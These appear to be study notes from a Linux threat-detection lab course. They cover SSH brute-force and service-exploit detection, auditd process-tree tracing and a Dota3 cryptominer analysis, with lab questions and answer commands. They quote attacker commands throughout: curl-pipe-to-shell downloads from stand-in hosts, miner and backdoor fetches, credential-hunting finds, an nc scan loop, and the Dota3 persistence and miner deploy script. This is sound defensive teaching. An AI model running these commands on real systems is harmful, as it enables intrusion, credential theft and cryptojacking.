


# Linux Threat Detection

## Initial Access via SSH

[External Remote Services](https://attack.mitre.org/techniques/T1133/) MiTRE Technique  

Threat actors run botnets to scan for exposed SSH and weak passwords authentication methods  

### Common Risks Using key-based authentication

- storage of private ssh keys on publicly available source code repositories or other services (Github, Ansible automation server)  
- Theft of SSH keys by infecting an admin laptop with data stealer malware  

### Additional Risks associated with Passowrd-based authentication

- admin sets a weak admin password for a temporary test, and forgets to revert changes or eliminate the account
- IT support enables ssh support for a contractor who sets a weak password
- Exposure of old, insecure SSH server to the intenet  

**Additional Material**

[Outlaw Group Uses SSH Brute-Force to Deploy Cryptojacking Malware on Linux Servers](https://thehackernews.com/2025/04/outlaw-group-uses-ssh-brute-force-to.html#:~:text=Outlaw%20is%20a%20Linux%20malware%20that%20relies%20on%20SSH%20brute%2Dforce%20attacks)  
[Remote Service Session Hijacking: SSH Hijacking ](https://attack.mitre.org/techniques/T1563/001/)  

**Initial Access via SSH Questions**

When did the ubuntu user log in via SSH for the first time?

`:> grep ubuntu /var/log/auth.log | grep login`

Did the ubuntu user use SSH keys instead of a password for the above found date? (Yea/Nay)  

`:> grep sshd auth.log | grep ubuntu | head`  

```bash
Accepted publickey for ubuntu from 10.9.254.186 port 64824 ssh2: RSA SHA256:krhp4o9yYOyVKmAd7PAsdHrKQGJtjIQjt4w0K9R4kXg
```

### Detecting SSH Attacks

#### Common Scenario

1. An adminitrative account enables public SSH access
2. The administrator enables passowrd-based authentication
3. the administrator sets a weak passowrd

#### Indicators of Compromise

1. Failed SSH login attempts by a user
2. Successful login attempts by the same user  
3. Is the source IP trusted/untrusted and/or internal/external?
4. Login method (password)
5. Do logins demonstrate potentila brute force attempt
6. time of day is expected / unexpected


**Detect SSH Attack Questions**

When did the SSH password brute force start?
Answer Format: 2023-09-15.

`grep -i failed auth.log | grep -i password`

Which four users did the botnet attempt to breach?
Answer Format: Separate by a comma, in alphabetical order.  

`grep -i failed auth.log | grep -i password`

Finally, which IP managed to breach the root user?  

`:> grep -i accepted auth.log | grep -i root`  


## Initial Access via Servcies

[T1190: Exploit Public-Facing Application ](https://attack.mitre.org/techniques/T1190/)  

Public-facing services include webservers, email servers, databases, and development/management tools.  

### T1190 Examples

[WordPress Admin Shell Upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/)  
[Threat Brief: Operation MidnightEclipse, Post-Exploitation Activity Related to CVE-2024-3400](https://unit42.paloaltonetworks.com/cve-2024-3400/)  
[TeamTNT’s Docker Gatling Gun Campaign](https://www.aquasec.com/blog/threat-alert-teamtnts-docker-gatling-gun-campaign/#:~:text=The%20campaign%20gains%20initial%20access%20by%20exploiting%20exposed%20Docker%20daemons)  
[Researchers Warn of Ongoing Attacks Exploiting Critical Zimbra Postjournal Flaw](https://thehackernews.com/2024/10/researchers-sound-alarm-on-active.html)  

### Using Logs  

Application logs rarely contain sufficient information to identify actual breach.  

- web logs can show a variety of web attcks
- database logs show suspicious queries (SQL or NoSQL)
- VPN logs contain abnormal VPN login events
- other specific logs contain information on specific events

### Web as Initila Access

Un sanitized input fields allow threat actors to attach linux commands inside query statements (command injection)  

indicators include:  

- source IP
- query strings which contain unexpected or unusual strings (such as commands)  

**Services Attacks Questions**

What is the path to the Python file the attacker attempted to open?  

`:> grep .py access.log`  

Looking inside the opened file, what's the flag you see there?

`:> cat ....`

### Detecting Service Breach

#### Process Tree Analysis

[SeleniumGreed: Threat actors exploit exposed Selenium Grid services for Cryptomining](https://www.wiz.io/blog/seleniumgreed-cryptomining-exploit-attack-flow-remediation-steps)  

Receive and alert and build a process tree back to its parent process  

  

#### Auditd and Process Tree

Locate suspicious commands in logs with `:> ausearch -i -x <command>`

`-i` : interpret numeric entities into text
`-x` : search for an event matching the given `<command>` executable name  

```bash
ubuntu@thm-vm:~$ ausearch -i -x whoami # -x filters the results by the command name
type=PROCTITLE msg=audit(08/25/25 16:28:18.107:985) : proctitle=whoami
type=SYSCALL msg=audit(08/25/25 16:28:18.107:985) : syscall=execve success=yes exit=0 items=2 ppid=3905 pid=3907 auid=unset uid=ubuntu tty=(none) exe=/usr/bin/whoami key=exec
```

use `--pid` option until you walk the complete tree to PID 1, the OS process  

```bash
ubuntu@thm-vm:~$ ausearch -i --pid 3905 # 3905 is a parent process ID of whoami
type=PROCTITLE msg=audit(08/25/25 16:28:17.101:983) : proctitle=/bin/sh -c whoami
type=SYSCALL msg=audit(08/25/25 16:28:17.101:983) : syscall=execve success=yes exit=0 items=2 **ppid=3898** pid=3905 auid=unset uid=ubuntu tty=(none) exe=/usr/bin/dash key=exec

ubuntu@thm-vm:~$ ausearch -i --pid 3898 # 3898 is a grandparent process ID of whoami
type=PROCTITLE msg=audit(08/25/25 16:28:11.727:982) : proctitle=/usr/bin/python3 /opt/mywebapp/app.py
type=SYSCALL msg=audit(08/25/25 16:28:11.727:982) : syscall=execve success=yes exit=0 items=2 **ppid=1-- pid=3898 auid=unset uid=ubuntu tty=(none) exe=/usr/bin/python3.12 key=exec
```

PID 1 belongs to `app.py`  

List the child process of `app.py`  

```bash
ubuntu@thm-vm:~$ ausearch -i --ppid 3898 | grep 'proctitle' # Use grep for a simpler output
type=PROCTITLE msg=audit(08/25/25 16:28:17.101:983) : proctitle=/bin/sh -c whoami
type=PROCTITLE msg=audit(08/25/25 16:28:18.230:985) : proctitle=/bin/sh -c ls -la
type=PROCTITLE msg=audit(08/25/25 16:28:19.765:987) : proctitle=/bin/sh -c curl http://17gs9q1puh8o-bot.thm | sh
```

**Detect Service Attacks Questions**  

What is the PPID of the suspicious whoami command?

`:> ausearch -i -x whoami | grep -i ppid`  

Moving up the tree, what is the PID of the TryPingMe app?

`:> ausearch -i --pid 1018`  

note: identify the `cwd` which has `trypingme` in the value  

Which program did the attacker use to open a reverse shell?

Find all child process of the previous answer.  

## Advanced Initial Access

### Human-Led Attacks

| Scenario Example | Consequences |
|-----------------|--------------|
| An IT member looks for a solution to a server issue and desperately tries this script found in a forum: `curl https://shadyforum.thm/fix.sh | bash` | The IT member didn't check the script content, and it appeared to be malware, silently infecting the server ([Read more](https://www.schneier.com/blog/archives/2022/11/an-untrustworthy-tls-certificate-in-browsers.html)) |
| A developer wants to install a Python "fastapi" package on the server, but mistypes a single letter: `pip3 install fastpi` | The mistyped package was malware, deliberately prepared and published by threat actors ([Real-world case](https://thehackernews.com/2025/03/malicious-pypi-packages-stole-cloud.html)) |

### Supply Chain Compromise

Dependencies are infects and pass the infection on.  

- A [backdoor in the XZ Utils library](https://www.akamai.com/blog/security-research/critical-linux-backdoor-xz-utils-discovered-what-to-know) that is a part of SSH nearly led to a breach of millions of Linux servers  
- A [breach of the tj-actions](https://www.cisa.gov/news-events/alerts/2025/03/18/supply-chain-compromise-third-party-tj-actionschanged-files-cve-2025-30066-and-reviewdogaction) resulted in a leak of thousands of secrets, like SSH keys and access tokens  

### Detecting The Supply chain Compromise Attacks

Relies on process tree analysis

**Questions**

Which Initial Access technique is likely used if a trusted app suddenly runs malicious commands?

Which detection method can you use to detect a variety of Initial Access techniques?

## Discovery

### First Actions

Initial discovery actiosn are always the same unless the threat actor already knows the system  

| Discovery Goal              | Typical Commands                                                                 |
|-----------------------------|---------------------------------------------------------------------------------|
| OS and Filesystem Discovery | `pwd`, `ls /`, `env`, `uname -a`, `lsb_release -a`, `hostname`                               |
| User and Groups Discovery   | `id`, `whoami`, `w`, `last`, `cat /etc/sudoers`, `cat /etc/passwd`                           |
| Process and Network Discovery | `ps aux`, `top`, `ip a`, `ip r`, `arp -a`, `ss -tnlp`, `netstat -tnlp`                      |
| Cloud or Sandbox Discovery  | `systemd-detect-virt`, `lsmod`, `uptime`, `pgrep "<edr-or-sandbox>"`                     |

### Specialized Discovery

more focused commands  

- Data stealers look for passwords and secrets
- cryptocurrency miners query CPU and GPU infroamtion to optimize mining
- botnet scripts scan the network scan for new victims  

| Attack Objectives                                | Typical Commands                                                                                   |
|--------------------------------------------------|----------------------------------------------------------------------------------------------------|  
| Find and steal credentials and other sensitive data | `history \| grep pass`, `find / -name .env`, `find /home -name id_rsa`                                   |
| Identify how suitable the system is for crypto mining | `cat /proc/cpuinfo`, `lscpu \| grep Model`, `free -m`, `top`, `htop`                                        |
| Scan the internal network for other future victims | `ping <ip>`, `for ip in 192.168.1.{1..254}; do nc -w 1 $ip 22 done`                                   |  


## Detecting Discovery

employs auditd, SIEM, ausearch  
challenge: determing if commands are from attacker, legitimate service, or IT administrator  

  

Context of discovery commands indicates legitimacy:  

- a web server suddenly spawns `whoami` ; the source of a command must be expected  
- member of IT team starts looking for secrets with `find` or `grep` ; the source of the command does not make sense, the IT people already have secrets access as needed  

Context is provided through process tree analysis

```bash
ubuntu@thm-vm:~$ ausearch -i -x whoami # Look for a Discovery command like whoami
type=PROCTITLE msg=audit(08/25/25 16:28:18.107:985) : proctitle=whoami
type=SYSCALL msg=audit(08/25/25 16:28:18.107:985) : arch=x86_64 syscall=execve success=yes exit=0 items=2 ppid=3898 pid=3907 auid=ubuntu uid=ubuntu exe=/usr/bin/whoami

ubuntu@thm-vm:~$ ausearch -i --pid 3898 # Identify its parent process, a lp.sh script
type=PROCTITLE msg=audit(08/25/25 16:28:11.727:982) : proctitle=/usr/bin/bash /tmp/lp.sh
type=SYSCALL msg=audit(08/25/25 16:28:11.727:982) : arch=x86_64 syscall=execve success=yes exit=0 items=2 ppid=3840 pid=3898 auid=ubuntu uid=ubuntu exe=/usr/bin/bash

ubuntu@thm-vm:~$ ausearch -i --ppid 3898 # Look for other processes created by the lp.sh
[Five more commands like "find /home -name *secret*" confirming the script is malicious ]
```  

### Discovery Questions

Run `systemd-detect-virt` to detect the system's cloud.
What is the command's output you discovered?

Now run ps aux and look for EDR or antivirus processes.  
What is the full path to the detected antimalware binary?  

What is the path of the script that initiated the "hostname" command?  

`:> ausearch -i -x hostname`  
`:> ausearch -i --pid <ppid>`  
`:> ausearch -i --ppid <ppid> | grep proctitle`  

What was the last Discovery command launched by the script?  

`:> sudo cat /home/itsupport/debug.sh` 

Looking at the script content, what's the email of the script author?  

`:> sudo cat /home/itsupport/debug.sh` 

## Attack Motivations

post-discovery activities reveal motivations through installation of specialized malware or unique / special class of attacks.  

### Hack and Forget Attacks

At-scale attacks for quick gains (e.g. WAN scan for exposed SSH using weak password(s))  
results in a few victims each month

* Installing cryptominder to earn money by using the victims CPU/GPU  
* Enroll victim to a botnet  
* Use the victim as a proxy  

### Ingress Tool Transfer

 Adversaries perform [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/) into a compromised environment.  

 | Command | Usage Example |
|---------|---------------|
| Wget: Download a file from the website | `wget https://github.com/xmrig/[...]/xmrig-x64.tar.gz -O /tmp/miner.tar.gz` |
| Curl: Make a request to the webpage | `curl --output /var/www/html/backdoor.php "https://pastebin.thm/yTg0Ah6a"` |
| SSH: Transfer a file via SCP or SFTP | `scp kali@c2server:/home/kali/cve-2021-4034.sh /tmp/cve-2021-4034.sh` |

### Additional Ingress Tool Transfer Detection 

#### Network Traffic

- downloads from an IP address seen in previous cyber attacks
- downloads for suspicious or known malicioous domain (e.g. `qfpkvwgq.thm`)  
- downlos from public service known to host attack tools (e.g. github)

#### File Events

- newly-created file in termporary folders (e.g. `/tmp` or `/var/tmp`)  
- newly-created files with unexpected names (e.g. `expoloit`, `shell.php`, `kF1pBsY5`)   

#### Antivirus Alerts

EDR or antivirus alerts triggering on a new malicious file or process  

### Ingress Tool Transfer Questions

From which domain was the Elastic agent downloaded?  

`:> grep -i elastic /audit/audit.log`  

What is the full path to the downloaded "helper.sh" script?  

`:> grep -i helper.sh /audit/audit.log`  

Which of the downloaded files is more likely to be malicious:  
The one downloaded with curl or wget?  

## Dota3 Malware Analysis

### References

[CounterCraft Analysis](https://www.countercraftsec.com/blog/dota3-malware-again-and-again/)
[SANS report](https://isc.sans.edu/diary/31260)  

### Dota3 Initial Access

- A botnet of more than 2000 distinct IPs across 94 countries scan internet for systems with open SSH
- Botnet brute-forces the systems, targeting `root` using top 1000 weak passwords  
- Upon authentication, a botnet host accesses the vitimc and continues the attack  

### Dota3 Discovery

Automated discovery  

```bash
# Checks CPU and RAM information
cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9;}'
free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}'
lscpu | grep Model
# Unclear purpose
ls -lh $(which ls)
# Generic Discovery
crontab -l 
w
uname -m
```  

### Dota3 Persistence

Changes the password of the breached account to something more complex (reduce potential for additional breach by competitor botnet)  
Replaced all SSH keys with a malicious key (lock out system owner)  

```bash
`echo -e "ubuntu123\nN2a96PU0mBfS\nN2a96PU0mBfS"|passwd|bash` >> up.txt
cd ~
rm -rf .ssh
mkdir .ssh
# Note the "mdrfckr" comment, unique to this attack
echo "ssh-rsa [ssh-key] mdrfckr" >> .ssh/authorized_keys
chmod -R go= ~/.ssh
```  

### Detecting Dota3 Attack  

Possible manual detection:  

| Log Source | Description |
|------------|-------------|
| Auth Logs: `cat /var/log/auth.log | grep "Accepted"` | Look for successful SSH logins by password from untrusted, external IP addresses |
| Auditd Process Logs: `ausearch -i -x [command]` | Look for execution of Discovery commands (e.g. uname, lscpu) and trace their origin |

#### Dota3 Analysis Questions

Which IP address managed to brute-force the exposed SSH?  

`:> grep -ai ssh auth.log | grep -i accepted`

Which command did the attacker use to list the last logged-in users?  

Which three EDR processes did the attacker look for with "egrep"?  
Answer Format: Separated by a comma, in alphabetical order.  

`:> grep -i 'egrep' /home/ubuntu/scenario/audit.log`

### Dota3 Cryptominer Setup  

#### Malware Tranfer

```bash
user@bot-1672$ scp dota3.tar.gz ubuntu@victim:/tmp
[OK] Transfered dota3.tar.gz file to the victim
```

#### Staging  

```bash
# Prepare a hidden /tmp/.X26-unix folder for malware
cd /tmp
rm -rf .X2*
mkdir .X26-unix
cd .X26-unix
# Unarchive malware to /tmp/.X26-unix/.rsync/c folder
tar xf dota3.tar.gz
sleep 3s
cd /tmp/.X26-unix/.rsync/c
```

#### Deploy

The `tsm` malware us a customer network scanner probing internal network for exposed SSH services.  
`initall` : XMRig cryptominer; loads victim CPU to generate revenue for attackers.  

Both binaries launch with `nohup` allowing process to continue running in background, even if SSH session closes.  

```bash
# Scan the internal network with the "tsm" malware
nohup /tmp/.X26-unix/.rsync/c/tsm -p 22 [...] /tmp/up.txt 192.168 >> /dev/null 2>1&
sleep 8m
nohup /tmp/.X26-unix/.rsync/c/tsm -p 22 [...] /tmp/up.txt 172.16 >> /dev/null 2>1&
sleep 20m
# Run the actual cryptominer named "initall"
cd ..; nohup /tmp/.X26-unix/.rsync/initall 2>1&
# That's it, Dota3 attack is now completed!
exit 0
```

#### Detecting Dota3 Miner Attack

Auditd logs:

- creation of untrusted, hidentfiles and directory, especially in `/tmp`  
- creation of files namel like known malware (e.g. `dota3.tar.gz`)
- use of commands often observed in attacks  

Observing SSH port scans of the entire private network sapce (192.168.* and 172.16.*)  

The cryptominer binary should typically be blocked by myst EDRs

#### Miner Questions

What is the name of the malicious archive that was transferred via SCP?  

`:> grep -i .tar audit.log`

What was the full command line of the cryptominer launch?

`:> grep -i kernupd audit.log`  


Which IP address range did the attacker scan for an exposed SSH?
Answer Example: 10.0.0.1-10.0.0.126.

`:> ausearch -if audit.log -x nc`